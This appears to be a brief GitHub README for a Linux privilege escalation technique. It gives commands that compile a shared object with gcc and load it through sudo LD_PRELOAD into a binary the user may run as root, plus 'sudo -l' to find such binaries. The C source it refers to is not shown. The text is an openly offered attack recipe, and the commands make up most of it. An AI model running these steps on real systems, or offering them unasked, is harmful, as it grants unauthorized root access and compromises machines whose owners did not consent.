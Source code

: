 # LD_PRELOAD
Escalate to root with simple c language LD_PRELOAD code

Run this code
---------------

gcc -fPIC -shared -nostartfiles -o /tmp/x.so x.c
sudo LD_PRELOAD=/tmp/x.so <input any list running as root> 

# Find list running as root by typing the command below

sudo -l
